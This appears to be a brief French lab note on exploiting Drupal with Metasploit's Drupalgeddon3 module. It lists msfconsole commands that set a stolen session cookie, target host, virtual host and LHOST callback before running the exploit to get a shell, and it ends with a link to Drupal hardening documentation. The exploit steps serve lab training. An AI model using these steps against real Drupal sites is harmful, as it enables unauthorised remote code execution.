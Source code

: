 1. Récupérer cookie de session
2. Dans msfconsole

```shell
use multi/http/drupal_drupageddon3
```

```shell-session
set rhosts 10.129.42.195
```

```shell-session
set VHOST drupal-acc.inlanefreight.local
```

```shell-session
set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
```

```shell-session
set DRUPAL_NODE 1
```

```shell-session
set LHOST 10.10.14.15
```

```shell-session
show options 
```

```shell-session
exploit
```



---
# HARDENING

https://www.drupal.org/docs/administering-a-drupal-site/security-in-drupal
